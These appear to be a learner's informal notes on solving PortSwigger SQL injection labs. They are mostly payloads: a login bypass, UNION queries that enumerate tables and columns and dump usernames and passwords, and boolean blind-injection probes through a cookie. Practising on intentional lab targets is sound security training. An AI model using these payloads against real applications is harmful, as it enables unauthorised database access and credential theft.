 https://portswigger.net/web-security/sql-injection/cheat-sheet   -> db cheatsheet


![[Pasted image 20230129112504.png]]
In this lab -> i test at Gifts permeter 
'+or+1=1--

----
![[Pasted image 20230129112831.png]]

In this lab -> i was change to username by like this -> password is whatever
administrator' --

---
![[Pasted image 20230129113521.png]]

In this lab -> i use this command to solve 
`'+UNION+SELECT+NULL,NULL,NULL--`

---
![[Pasted image 20230129114329.png]]

This lab -> i tried to check about string data 
'+UNION+SELECT+ NULL,'opymIc',NULL--

---
`'+UNION+SELECT+username,+password+FROM+users--`
I use this command to get username and password 

---

![[Pasted image 20230131220554.png]]

`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`   => i use this pay load for this challenge

----

![[Pasted image 20230131221018.png]]
I just use this payload for this challenge -> i dont look at answe hehe!! 
-> take cate of space --> replace with + sign

---

I using this payload cuz there is two db      ---> '+UNION+SELECT+NULL,NULL--

'+UNION+SELECT+table_name,+NULL+from+information_schema.tables--     => for tables

'+UNION+SELECT+column_name,+NULL+from+information_schema.columns+where+table_name='users_cyjvyo'--    => for columns

'+UNION+SELECT+username_lvhaae,+password_jjdekp+FROM+users_cyjvyo --    -> dump

administrator

unvo4qdig2ani5hymaw5

------

 Interesting task

'+UNION+SELECT+'abc',+'abc'+FROM+all_tables--

`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`  => for tables

`'+UNION+SELECT+column_name,'abc'+FROM+all_tab_columns+WHERE+table_name='USERS_QPGAVM'--`    => for columns 

`'+UNION+SELECT+USERNAME_EXKFJY,+PASSWORD_FQINEZ+FROM+USERS_QPGAVM--`  => data dump

administrator

ac2ky60fgcnkwgosoyjp

-----

cookie error base

' AND 1=1 -- -     => It's working 

' AND 1=2 -- -    => It's not working 

AND (SELECT 'a' FROM users LIMIT 1)='a'  => I am sure there have users table 

AND (SELECT 'a' FROM users WHERE username='administrator')='a' => I am sure there have administrator have in this table

AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'   => password length is greater than 1



